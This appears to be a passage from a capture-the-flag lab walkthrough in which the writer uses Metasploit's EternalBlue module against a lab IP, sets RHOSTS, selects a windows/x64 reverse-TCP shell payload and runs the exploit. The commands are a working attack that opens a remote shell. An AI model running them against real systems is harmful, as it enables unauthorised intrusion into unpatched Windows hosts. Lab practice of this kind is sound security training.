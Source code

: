 Show options and set the one required value. What is the name of this value? (All caps for submission)

- `info exploit/windows/smb/ms17_010_eternalblue`
- `use exploit/windows/smb/ms17_010_eternalblue` then `show options`
- RHOSTS
- `set rhosts <ip>`
- `set rhosts 10.10.150.92`

![](2023-03-16-06-51-41.png)

Usually it would be fine to run this exploit as is; however, for the sake of learning, you should do one more thing before exploiting the target. Enter the following command and press enter:

`set payload windows/x64/shell/reverse_tcp`

![](2023-03-16-06-52-35.png)

With that done, run the exploit!

- `run` or `exploit`
